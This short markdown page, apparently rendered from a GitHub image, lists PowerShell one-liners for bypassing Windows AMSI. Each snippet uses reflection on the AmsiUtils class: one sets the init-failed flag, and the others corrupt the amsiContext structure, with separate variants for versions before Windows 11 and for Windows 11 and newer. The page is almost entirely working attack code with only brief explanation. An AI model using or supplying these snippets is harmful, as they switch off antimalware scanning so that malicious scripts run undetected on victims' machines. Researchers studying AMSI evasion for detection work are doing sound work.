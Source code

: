 ## Attack AmsiInitialize
Manipulate the initialized structure pointed by `amsiContext` argument. 
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```


## Attack AmsiOpenSession
### Before Windows 11
The first DWORD of the structure pointed by `amsiContext` argument is compared to `"AMSI"`, patch it to make the argument invalid.
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};$d=$c.GetFields(‘NonPublic,Static’);Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```


### On Windows 11 and newer
The second QWORD of the structure pointed by `amsiContext` argument is compared to `0`, patch it to make the argument invalid.
```powershell
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

